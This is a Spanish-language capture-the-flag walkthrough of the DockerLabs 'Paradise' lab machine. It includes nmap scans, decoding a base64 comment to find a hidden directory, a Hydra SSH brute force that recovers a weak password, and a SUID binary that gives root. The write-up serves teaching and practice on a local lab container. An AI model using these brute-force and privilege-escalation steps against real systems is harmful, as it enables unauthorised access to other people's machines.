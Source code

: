 ```yaml
---
icon: flag
---
```


# Paradise DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip paradise.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh paradise.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-18 15:06 EST
Nmap scan report for 172.17.0.2
Host is up (0.000022s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 a1:bc:79:1a:34:68:43:d5:f4:d8:65:76:4e:b4:6d:b1 (DSA)
|   2048 38:68:b6:3b:a3:b2:c9:39:a3:d5:f9:97:a9:5f:b3:ab (RSA)
|   256 d2:e2:87:58:d0:20:9b:d3:fe:f8:79:e3:23:4b:df:ee (ECDSA)
|_  256 b7:38:8d:32:93:ec:4f:11:17:9d:86:3c:df:53:67:9a (ED25519)
80/tcp  open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Andys's House
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: PARADISE)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: PARADISE)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: UBUNTU; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: b501da0b8f9b
|   NetBIOS computer name: UBUNTU\x00
|   Domain name: \x00
|   FQDN: b501da0b8f9b
|_  System time: 2025-02-18T20:06:38+00:00
| smb2-time: 
|   date: 2025-02-18T20:06:39
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.56 seconds
```

Si vamos a la pagina veremos algo normal, pero si le damos a `Go paradise` e inspeccionamos el codigo veremos lo siguiente:

```html
<!-- ZXN0b2VzdW5zZWNyZXRvCg== -->
```

Vemos que esta codificado en `Base64` por lo que lo decodificaremos:

```shell
echo "ZXN0b2VzdW5zZWNyZXRvCg==" | base64 -d
```

Info:

```
estoesunsecreto
```

Por lo que podemos creer puede ser una contraseña de algun usuario, pero no vamos a tener suerte con ello, si lo intentamos poner como un directorio de `URL` veremos que si funciona:

```
URL = http://<IP>/estoesunsecreto
```

Y vemos un archivo llamado `mensaje_para_lucas.txt` que contiene lo siguiente:

```
REMEMBER TO CHANGE YOUR PASSWORD ACCOUNT, BECAUSE YOUR PASSWORD IS DEBIL AND THE HACKERS CAN FIND USING B.F.
```

Por lo que vemos el usuario `lucas` tiene una contraseña debil, por lo que vamos a tirarle un ataque de fuerza bruta con `hydra`, probaremos primero por `SSH`.

## Escalate user lucas

### Hydra

```shell
hydra -l lucas -P <WORDLIST> ssh://<IP> -t 64 
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-18 15:11:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: lucas   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 7 final worker threads did not complete until end.
[ERROR] 7 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-18 15:11:13
```

Vemos que hemos obtenido las credenciales del usuario `lucas`, por lo que nos meteremos por `SSH`.

### SSH

```shell
ssh lucas@<IP>
```

Metemos como contraseña `chocolate` y veremos que estamos dentro.

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2406747   36 -rwsr-xr-x   1 root     root        36592 May 16  2017 /usr/bin/newgrp
2406865  152 -rwsr-xr-x   1 root     root       155008 May 29  2017 /usr/bin/sudo
2406607   44 -rwsr-xr-x   1 root     root        41336 May 16  2017 /usr/bin/chsh
2406604   48 -rwsr-xr-x   1 root     root        46424 May 16  2017 /usr/bin/chfn
2406760   48 -rwsr-xr-x   1 root     root        47032 May 16  2017 /usr/bin/passwd
2406678   72 -rwsr-xr-x   1 root     root        72280 May 16  2017 /usr/bin/gpasswd
2515879   12 -rwsr-xr-x   1 root     root        10240 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
2529841  432 -rwsr-xr-x   1 root     root       440416 Mar  4  2019 /usr/lib/openssh/ssh-keysign
2623342   12 -rwsr-xr-x   1 root     root         8789 Aug 30 13:13 /usr/local/bin/privileged_exec
2623261    4 -rwsr-xr-x   1 root     root          237 Jul 27  2024 /usr/local/bin/backup.sh
2404972   68 -rwsr-xr-x   1 root     root        69120 Nov 23  2016 /bin/umount
2404945   44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /bin/ping6
2404964   40 -rwsr-xr-x   1 root     root        36936 May 16  2017 /bin/su
2404931   96 -rwsr-xr-x   1 root     root        94792 Nov 23  2016 /bin/mount
2404944   44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /bin/ping
```

Y vemos que esta la siguiente linea bastante interesante:

```
2623342  12 -rwsr-xr-x  1 root  root  8789 Aug 30 13:13 /usr/local/bin/privileged_exec
```

Y si ejecutamos esto directamente:

```shell
/usr/local/bin/privileged_exec
```

Info:

```
Running with effective UID: 0
root@b501da0b8f9b:~# whoami
root
```

Veremos que somos `root` directamente, por lo que habremos terminado la maquina.
